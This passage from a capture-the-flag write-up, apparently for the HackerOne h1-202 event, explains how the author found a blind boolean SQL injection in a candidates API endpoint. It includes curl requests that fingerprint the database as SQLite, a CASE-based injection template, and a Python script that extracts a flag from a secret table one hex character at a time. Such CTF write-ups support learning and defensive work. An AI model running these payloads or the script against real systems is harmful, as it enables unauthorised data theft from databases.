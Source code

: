 Since wrapping an integer with `()` gives a positive result, this means that
we're most likely _not_ in the context of a quote (`SELECT * FROM something
WHERE id = (1)`)

In order to figure out which DBMS we're dealing with, we can simply inject
`(SELECT 1 FROM [schema_table])` and test it against various meta tables.

In the end, we discover that the DBMS is SQLite :

```bash
$ curl "https://api-h1-202.h1ctf.com/candidates/(SELECT%201%20FROM%20information_schema.tables)" -H "X-API-AGENT: ANDROID"
{}

$ curl "https://api-h1-202.h1ctf.com/candidates/(SELECT%201%20FROM%20sqlite_master)" -H "X
-API-AGENT: ANDROID"
{"error":"Under construction // TODO: return results from query"}
```

Also, since we get a different response based on the validity of our supplied
ID, we basically have a blind boolean based SQL injection. Here's
the structure that I'll use for my injection :

```bash
(SELECT CASE
  WHEN [condition]
    THEN 1 # valid ID
    ELSE 5 # invalid ID
  END
from [table_name])
```

I like to do my SQL injections by hand when I know that I'll be dealing with
small data sets. SQLMap is noisy... So here is a python script which spits out
the flag :

```python
#!/usr/bin/env python2

import requests
import string
import binascii

HEADERS = { "X-API-AGENT" : "ANDROID" }

flag = ""
while True:
    found = False

    for c in "0123456789ABCDEF":
        SQL = "(SELECT CASE WHEN hex(flag) LIKE '{}%25' THEN 1 ELSE 5 END from secret_flags WHERE flag LIKE '%25flag%25')"

        payload = SQL.format(flag + c)
        URL = "https://api-h1-202.h1ctf.com/candidates/{}".format(payload)
        response = requests.get(URL, headers=HEADERS)

        if "Under construction" in response.text:
            found = True
            flag += c
            break

    if not found:
        print "FLAG : {}".format(binascii.unhexlify(flag))
        exit()
```
